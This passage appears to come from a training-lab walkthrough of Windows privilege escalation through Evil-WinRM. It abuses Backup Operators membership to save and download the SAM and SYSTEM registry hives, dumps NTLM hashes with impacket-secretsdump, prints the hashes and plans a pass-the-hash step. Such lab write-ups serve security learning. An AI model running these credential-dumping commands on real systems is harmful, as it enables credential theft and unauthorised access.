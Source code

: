 We will need to obtain a new session to see the new group allowed
```powershell
*Evil-WinRM* PS C:\Users\thmuser1\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```

With the new admin group enabled we should grab some important DBs for passwords :) 
```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak

download system.bak
download sam.bak
```

Now that we have some SAM hashes lets pass them. *Note: We dump the .bak using impacket-secrets dump* `/usr/share/kali-menu/helper-scripts/impacket-scripts.sh`
```bash
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

We receive the following results
```python
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
thmuser1:1008:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser2:1009:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser3:1010:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser0:1011:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser4:1013:aad3b435b51404eeaad3b435b51404ee:8767940d669d0eb618c15c11952472e5:::
```
